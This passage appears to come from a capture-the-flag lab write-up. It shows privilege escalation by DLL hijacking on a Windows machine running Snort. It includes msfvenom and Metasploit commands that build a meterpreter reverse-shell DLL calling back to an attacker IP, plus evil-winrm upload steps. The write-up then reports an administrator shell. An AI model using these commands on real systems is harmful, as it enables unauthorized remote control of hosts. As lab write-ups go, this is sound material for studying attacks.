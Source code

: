 We have both users we need here. There're some tools for blue team for example snort. I couldn't find anything intersting in log file but I founf lib directory with dll files. We can perform dll hijacking attack with a file called sf_engine.dll

![evil_result](images/Analysis16.png)

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f dll > sf_engine.dll
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 7777
run
```

Then in evil-winrm in C:\Snort\lib\snort_dynamicpreprocessor:

```bash
cd C:\Snort\lib\snort_dynamicpreprocessor
upload /home/perunchess/sf_engine.dll
```

After a few minutes got back shell as analysis\administrateur:
